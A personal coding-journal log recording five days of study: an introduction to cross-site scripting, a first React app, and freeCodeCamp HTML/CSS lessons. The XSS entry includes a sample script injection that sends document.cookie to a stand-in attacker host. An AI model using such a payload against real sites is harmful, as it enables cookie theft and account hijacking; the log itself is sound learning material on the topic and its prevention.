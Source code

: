 
# 100 Days of Coding - Log

## Start of Log

## Day 1 - July 24, 2019
**Subject:** Cross-Site Scripting
**Today's Progress:** I was able to understand the concept of Cross-Site Scripting (XSS), it's use and prevention.

**Thoughts:**
 XSS flaws occur whenever an applications includes untrusted data in a new web page without proper validation or escaping or updates a n existing web page w/ user supplied data using a browser api that can create Javascript.

It enables attackers to inject client-side scripts into web pages viewed by other users.

### What does XSS can do?
 - Malicious javascript can be used to do all sorts of malicious attacks because basically, it can access the api or anything that connects to the database. it also can affect the behavior of the page.
- it can be used to steal user cookies that allows the attacker to use the website pretendingto be that user that he stole.

### Example of injections to the `<input>` tags or in the URL:
	`><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`.

or other HTML Tags like what i've tested `<i>` which transformed the remainder of the elements in the HTML Body into _Italic_.

### Preventions:
 - The preferred option is to properly escape untrusted data based on HTML context that the data will be placed into.
 - avoid passing untrusted data to Javascript and other browser APIs that can generate active content.
 
## 

## Day 2 - July 25, 2019

**Subject:** Javascript (ReactJS)

**Today's Progess:** I started creating my first react app with `npx create-react-app react-app` and created my own _index.js_ file.

**Thoughts:**

I Encountered a problem in running the `npm install -g create-react-app` and `npx create-react-app react-app` commands on my terminal so i had to surf on the web on how can i fix it. but luckily it was fixed by running the `sudo chown -r <path>` command.

  

I run my app with `npm start` on the terminal and prints _Hello World_

  

I put these lines of codes in my _index.js_ as a test for starting the app.

  

```
import React from 'react';
import ReactDOM from 'react-dom';

const App = () => {
return <div>Hello World</div>
};

ReactDOM.render(
<App />,
document.querySelector('#root')
);
```
<br>

|  import | React | from | 'react' |
|---------|-------|------|---------|
|gives me access to<br>codes from other files<br>or dependencies <br> that I will import.|The variable I want <br> to assign this import<br> to.| I'm about to specify<br>the name of the<br>library or file that I'm<br>importing from.|The name of the<br>dependency or <br> path to the file I<br>am importing.

###

`ReactDOM.render` takes the component and shows it on the screen.

##

## Day 3 - July 26, 2019

**Subject:** Basic HTML and HTML5

**Today's Progess:** I finished the first part of the Responsive Web Design Certification in [https://learn.freecodecamp.org/](https://learn.freecodecamp.org/) which is Basic HTML and HTML5.

![enter image description here](https://i.imgur.com/M3IzbHz.png)

##

## Day 4 - July 29, 2019

**Subject:** Basic CSS

**Today's Progess:** I continued working with the course on freecodecamp site and done with changing color text up to sizing images.
![enter image description here](https://i.imgur.com/62Mubc2.png)

##

## Day 5 - July 30, 2019
**Subject:** Basic CSS

**Today's Progess:** I continued working with the course on freecodecamp site and done with more than half of the topic. I've finished starting from Adding Borders around the Element up to Override styles in Subsequent CSS.

![enter image description here](https://i.imgur.com/s1dpdHM.png)
